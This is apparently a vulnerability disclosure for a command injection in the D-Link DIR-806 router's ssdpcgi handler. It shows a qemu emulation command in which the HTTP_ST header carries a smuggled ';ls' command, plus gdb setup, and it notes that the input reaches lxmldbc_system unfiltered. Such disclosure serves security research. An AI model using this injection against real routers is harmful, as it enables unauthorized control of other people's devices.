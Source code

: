 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:

qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls", The results are shown in the figure below: 
![image-1](../img/1.jpg)

No filtering is done, and then the lxmldbc_system function is passed in to execute causing the command execute
